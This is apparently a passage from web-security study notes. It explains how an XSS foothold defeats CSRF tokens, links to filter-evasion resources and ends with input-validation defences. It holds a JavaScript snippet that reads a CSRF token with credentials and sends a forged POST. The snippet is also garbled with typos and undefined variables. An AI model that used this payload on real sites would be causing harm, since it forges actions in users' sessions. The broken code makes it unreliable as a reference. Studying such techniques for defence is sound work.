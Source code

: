 If an application has CSRF protection - this means nothing if you have XSS on the domain - you can bypass SOP. This is because any request made by the XSS originated from the same domain.

1. Use a `GET` to pull the CSRF token from a form
2. Make a `POST` to the endpoint
3. Exfil the return - since SOP is bypassed

``` js
// get token by opening a page where POST is protected by the token
varpage = new XMLHTTPRequests();
page.open("Get", "http://site.com/form", "false"); // open any page protecting POST with token
page.withCredentials=true;
var ID = page.responseText;
var i = ID.indexOf("csrf_token");
ID = ID.substring(i, ID.length).substr(x, y);

// embed token into CSRF request
page.open("POST", "https://site.com/form", false)
page.withCredentials=true;
var params = "data-123&csrf_toke="+ID;
page.setRequestHeader("Conent-length", params.length);
page.send(params);
```

Resources:

* OWASP's [XSS filter evasion payloads](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* `nullbyte`'s [bypassing XSS filters part 1](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)
* `nullbyte`'s [bypassing XSS filters part 2](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-2-0190959/)

### Defences

**MAKE NO ASSUMPTIONS**!

* Don't trust user input. Before you use an input, validate it.
* Don't trust other systems you talk to. Validate all data you rely on.
* Validate both format and value - attacks aren't just semantic

What is untrusted input?  
Any input received from:

* users
* external sources (API calls, third-party systems)
* any input that could be influenced by users (cookie, web storage, HTTP header values)
* database
* internal sources
* config files that could potentially be influenced by users or other systems

When you are unsure of a data source, treat it as an untrusted data

### Strategies
